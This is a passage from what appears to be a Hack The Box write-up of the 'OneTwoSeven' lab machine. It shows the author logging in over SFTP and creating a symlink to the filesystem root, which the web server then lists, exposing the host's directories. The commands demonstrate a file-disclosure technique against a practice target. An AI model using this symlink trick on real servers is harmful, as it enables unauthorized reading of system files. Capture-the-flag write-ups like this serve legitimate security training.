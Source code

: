 I can log in with SFTP however:

```
# sftp ots-4NzkzMDE@10.10.10.133
ots-4NzkzMDE@10.10.10.133's password:
Connected to ots-4NzkzMDE@10.10.10.133.
sftp>
```

As expected the SFTP access provides a link to the user directory:

```
sftp> ls
public_html
sftp> cd public_html/
sftp> ls
index.html
```

### Gathering some files via symlink

I can create a symlink to the filesystem root directory with:

```
sftp> ln -s / root
sftp> ls -l
-rw-r--r--    1 1001     1001          349 Feb 15 21:03 index.html
lrwxrwxrwx    1 1001     1001            1 Apr 22 01:07 root
```

If I go in the `root` directory symlink I created, it returns me to the root of the SFTP however.

```
sftp> cd root
sftp> ls
public_html
```

But with the web browser however, when I browse to `root` I see a bunch of folders:

![](/assets/images/htb-writeup-onetwoseven/symlink1.png)
